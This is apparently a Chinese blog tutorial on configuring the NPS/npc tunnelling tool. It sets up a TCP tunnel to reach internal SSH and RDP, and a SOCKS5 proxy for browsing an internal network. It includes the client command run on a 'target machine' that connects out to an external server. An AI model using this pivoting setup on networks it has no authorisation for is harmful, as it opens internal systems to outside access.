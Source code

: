 ## 使用场景
### tcp隧道

```bash
适用范围： ssh、远程桌面等tcp连接场景
假设场景： 想通过访问公网服务器1.1.1.1的8001端口，连接内网机器10.1.50.101的22端口，实现ssh连接
使用步骤
在刚才创建的客户端隧道管理中添加一条tcp隧道，填写监听的端口（8001）、内网目标ip和目标端口（10.1.50.101:22），保存。
访问公网服务器ip（1.1.1.1）,填写的监听端口(8001)，相当于访问内网ip(10.1.50.101):目标端口(22)，例如：ssh -p 8001 root@1.1.1.1
```

eg:在其客户端位置处，创建客户端  
主要包括Basic 认证用户名(test)，Basic 认证密码(test)，唯一验证秘钥(123456)  
其中用户名、密码为连接Socks5、Web、HTTP转发代理使用的账号密码，唯一验证秘钥为veky参数，是服务端和客户端连接的凭证。  
[![](https://img2020.cnblogs.com/blog/2224145/202012/2224145-20201201105719208-154307225.png)](https://img2020.cnblogs.com/blog/2224145/202012/2224145-20201201105719208-154307225.png)

在控制面板创建tcp隧道  
Tcp隧道为:  
1、服务器监听端口:7777  
2、目标ip和端口：内网ip 192.168.30.130和端口3389  
[![](https://img2020.cnblogs.com/blog/2224145/202012/2224145-20201201105729301-188579246.png)](https://img2020.cnblogs.com/blog/2224145/202012/2224145-20201201105729301-188579246.png)

在靶机ip上执行npc客户端命令  
npc.exe -server=172.100.30.173:8024 -vkey=123456  
[![](https://img2020.cnblogs.com/blog/2224145/202012/2224145-20201201105735543-1714767012.png)](https://img2020.cnblogs.com/blog/2224145/202012/2224145-20201201105735543-1714767012.png)

想通过访问公网服务器172.100.30.173的7777端口，连接内网机器192.168.30.130的3389端口，实现rdp连接。

### Socks5代理

```bash
适用范围： 在外网环境下如同使用vpn一样访问内网设备或者资源
假设场景： 想将公网服务器1.1.1.1的8003端口作为socks5代理，达到访问内网任意设备或者资源的效果
使用步骤
在刚才创建的客户端隧道管理中添加一条socks5代理，填写监听的端口（8003），保存。
在外网环境的本机配置socks5代理(例如使用proxifier进行全局代理)，ip为公网服务器ip（1.1.1.1），端口为填写的监听端口(8003)，即可畅享内网了
```

eg:  
利用上面设置的客户端，在控制面板设置socks5代理，设置服务器监听端口12345  
[![](https://img2020.cnblogs.com/blog/2224145/202012/2224145-20201201105744843-98864340.png)](https://img2020.cnblogs.com/blog/2224145/202012/2224145-20201201105744843-98864340.png)  
[![](https://img2020.cnblogs.com/blog/2224145/202012/2224145-20201201105751156-1636059833.png)](https://img2020.cnblogs.com/blog/2224145/202012/2224145-20201201105751156-1636059833.png)

运行npc客户端：npc.exe -server=172.100.30.173:8024 -vkey=123456  
利用proxifer代理工具进行socks5连接  
协议 ip 端口 用户名 密码  
socks5 172.100.30.173 12345 test test  
[![](https://img2020.cnblogs.com/blog/2224145/202012/2224145-20201201105759589-193659493.png)](https://img2020.cnblogs.com/blog/2224145/202012/2224145-20201201105759589-193659493.png)
